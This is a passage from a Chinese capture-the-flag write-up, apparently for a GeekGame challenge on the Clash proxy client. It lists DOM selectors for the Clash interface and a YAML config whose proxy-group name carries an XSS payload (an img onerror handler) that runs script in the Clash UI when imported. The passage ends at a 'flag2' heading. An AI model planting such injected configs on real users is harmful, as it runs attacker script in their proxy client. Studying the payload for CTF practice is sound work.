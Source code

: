 ```javascript
// 左侧边栏 left-side: 
document.body.children[0].children[0].children[1]

// 代理窗口 proxy-view: 
document.getElementById("main-proxy-view")

// 切换到 General 选项卡: 
document.getElementById("main-proxy-view").children[0].children[0].children[0].click()

// 代理列表 proxy-list: 
document.getElementById("main-proxy-view").children[1]

// 切换到 proxy 3: 
document.getElementById("main-proxy-view").children[1].children[0].children[0].children[1].children[2].click()
```

导入以下脚本，可以在打开Proxies时自动切换到General选项卡：

```yaml
port: 7890
allow-lan: true
mode: Rule
log-level: info
external-controller: 0.0.0.0:9090
proxies:
  - name: flag
    type: socks5
    server: 127.0.0.1
    port: 1926
    skip-cert-verify: true

proxy-groups:
  -
    name: <img/src="1"/onerror=document.getElementById("main-proxy-view").children[0].children[0].children[0].click()>
    type: select
    proxies:
    - flag

rules:
  - "DOMAIN-SUFFIX,pku.edu.cn,flag"
  - "GEOIP,CN,DIRECT"
  - "MATCH,DIRECT"
```

![](/img/geek3/clash2.png)

PS：我认为这套做法实在是太抽象了……flag1做得磕磕绊绊，整个做下来没有一点技术，感觉全是非预期 (╯°Д°)╯︵ ┻━┻

### flag2
